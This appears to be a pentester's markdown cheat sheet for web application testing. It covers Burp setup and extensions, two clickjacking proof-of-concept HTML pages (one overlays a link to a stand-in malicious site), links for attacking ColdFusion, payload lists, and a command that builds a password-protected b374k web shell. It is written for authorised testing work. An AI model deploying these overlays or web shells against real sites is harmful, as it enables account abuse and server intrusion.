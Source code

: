 # Webapp Pentesting

Burp "Quick Start" guide
--------
I did a video demo of how to get up and going with Burp quickly in [episode #230](https://7ms.us/7ms-230-pentesting-owasp-juice-shop-part-1/) of the 7 Minute Security podcast.  It includes things like:

* Getting Burp installed
* Installing the SSL cert
* Installing FoxyProxy and proxying traffic through Burp
* Setting up a quick shell script to start Burp from the command line:
  * `java -Xmx2g -jar burpsuite.jar`


### Helpful extensions from the BApp store :

* [CO2](https://github.com/JGillam/burp-co2) has a bunch of tricks up its sleeve - my favorite of which is helping you craft sqlmap commands with the right flags

* [Reflector](https://github.com/elkokc/reflector) (**I've not tested this one**) claims to be able to find XSS in real time.  It doesn't integrate directly with Burp via the BApp Store, but definitely looks to be worth checking out.

* [retire.js](https://github.com/h3xstream/burp-retire-js) looks for old/outdated/vulnerable Javascript libraries *

* [Software Vulnerability Scanner](https://portswigger.net/bappstore/c9fb79369b56407792a7104e3c4352fb) helps you find vulnerable software, such as old versions of IIS.


Clickjacking sample
------
### Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````

ColdFusion
-----
Sites that help attacking CF:

https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
https://www.exploit-db.com/exploits/14641/ (contains path that CFIDE admin might live in)
https://github.com/averagesecurityguy/scripts/ - contains some scripts for attacking CF
https://dl.packetstormsecurity.net/papers/attack/topseven-coldfusion.pdf - top 5 CF vulns
https://www.cvedetails.com/vulnerability-list/vendor_id-53/product_id-8739/version_id-39015/Adobe-Coldfusion-7.0.html - CF 7 vulns
http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf - great paper from Chris Gates on attacking CF

Payloads
--------
* [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is "a list of useful payloads and bypass for Web Application Security and Pentest/CTF."

* [XSS-Problems](https://github.com/karelorigin/XSS-Problems/tree/master) will "help you solve problems you might encounter while trying to XSS a target."

Web Shells
--------
### General guidance/usage
This [blog](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) gives some great guidance and a checklist for using/abusing Webshells.

The [HighonCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) cheat sheet is also awesome.

#### Webshells for download

### B374K
One of my fav Web shells is [b374k](https://github.com/b374k/b374k), and as a quick ref, once you clone it from github, you can get a shell compiled pretty quick with:

`php -f index.php -- -o myShell.php -p MyPasswordGoesHere -s -b -z gzcompress -c 9`

### cmdsql
This nice [Webshell](https://github.com/NetSPI/cmdsql) from NetSPI is handy for the following tasks (according to the Web site)

* Execute operating system commands
* Parse web.config files for connection strings (based on root directory)
* Execute MSSQL queries using connection strings recovered from web.config files

Note: the accompanying [blog](https://blog.netspi.com/adding-powershell-to-web-shells-to-get-database-access/) reminds us that this only works on IIS sites that allow execution of .aspx files.

Upload functionality (abusing)
-------
[This site](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) has some great tips for abusing file upload functionality.

XSS
------
Nice site showing the [risks of XSS](https://www.dionach.com/blog/the-real-impact-of-cross-site-scripting).
